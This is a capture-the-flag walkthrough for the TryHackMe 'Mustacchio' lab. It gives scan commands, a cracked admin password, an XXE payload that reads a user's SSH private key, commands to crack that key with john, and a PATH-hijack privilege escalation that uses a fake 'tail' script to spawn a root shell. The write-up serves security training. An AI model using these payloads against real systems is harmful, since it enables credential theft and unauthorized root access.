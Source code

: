 # Mustacchio

**Room Link:** [https://tryhackme.com/room/mustacchio](https://tryhackme.com/room/mustacchio)

### Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (181).png" alt=""><figcaption></figcaption></figure>





### Scan all ports

port 8765 found which is running nginx

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (183).png" alt=""><figcaption></figcaption></figure>





### TCP/80 - HTTP

```
gobuster dir -u http://$VICTIM -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

<figure><img src="../../.gitbook/assets/image (182).png" alt=""><figcaption></figcaption></figure>

There is a users.bak file in the custom folder

<figure><img src="../../.gitbook/assets/image (185).png" alt=""><figcaption></figcaption></figure>

It's a bit messy but it appears to be a username and password hash. I put it through crackstation

<figure><img src="../../.gitbook/assets/image (186).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (187).png" alt=""><figcaption></figcaption></figure>





### TCP/8765 - HTTP

```
gobuster dir -u http://$VICTIM:8765 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

<figure><img src="../../.gitbook/assets/image (184).png" alt=""><figcaption></figcaption></figure>





**Kali**

```
Username: admin
Password: bulldog19
```



<figure><img src="../../.gitbook/assets/image (189).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (188).png" alt=""><figcaption></figcaption></figure>

### Initial Shell

In the source code there's two interesting places to look

<figure><img src="../../.gitbook/assets/image (190).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (191).png" alt=""><figcaption></figcaption></figure>

Seems like a waste but we now know the format how to submit something on the site

<figure><img src="../../.gitbook/assets/image (192).png" alt=""><figcaption></figcaption></figure>

**Input**

```
<?xml version="1.0" encoding="UTF-8"?>
<comment>
  <name>Joe Hamd</name>
  <author>Barry Clad</author>
  <com>his paragraph was a waste of time and space. If you had not read this and I had not typed this you and I could\u2019ve done something more productive than reading this mindlessly and carelessly as if you did not have anything else to do in life. Life is so precious because it is short and you are being so careless that you do not realize it until now since this void paragraph mentions that you are doing something so mindless, so stupid, so careless that you realize that you are not using your time wisely. You could\u2019ve been playing with your dog, or eating your cat, but no. You want to read this barren paragraph and expect something marvelous and terrific at the end. But since you still do not realize that you are wasting precious time, you still continue to read the null paragraph. If you had not noticed, you have wasted an estimated time of 20 seconds.</com>
</comment>
```

<figure><img src="../../.gitbook/assets/image (193).png" alt=""><figcaption></figcaption></figure>

**Input**

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [<!ENTITY xxe SYSTEM 'file:///home/barry/.ssh/id_rsa'>]>
<comment>
  <name>Joe Hamd</name>
  <author>Barry Clad</author>
  <com>&xxe;</com>
</comment>
```

<figure><img src="../../.gitbook/assets/image (194).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (195).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (196).png" alt=""><figcaption></figcaption></figure>



**Kali**

```
python /opt/john/ssh2john.py id_rsa > hash
john --wordlist=/usr/share/wordlists/rockyou.txt hash
chmod 600 id_rsa
ssh -v -i id_rsa barry@$VICTIM
Password: urieljames
```

<figure><img src="../../.gitbook/assets/image (197).png" alt=""><figcaption></figcaption></figure>

### Privilege Escalation

We find a program owned by root in joes folder. When we run strings on it we can see tail command is being ran but it is not using full path so we can exploit this.

**Victim**

```
cd /home/joe
ls -lah
strings live_log
```

<figure><img src="../../.gitbook/assets/image (198).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
cd /tmp

cat > tail << EOF
> #!/bin/bash
> /bin/bash -i
> EOF
chmod +x tail

export PATH=/tmp/:$PATH
/home/joe/live_log 
```

<figure><img src="../../.gitbook/assets/image (26).png" alt=""><figcaption></figcaption></figure>



















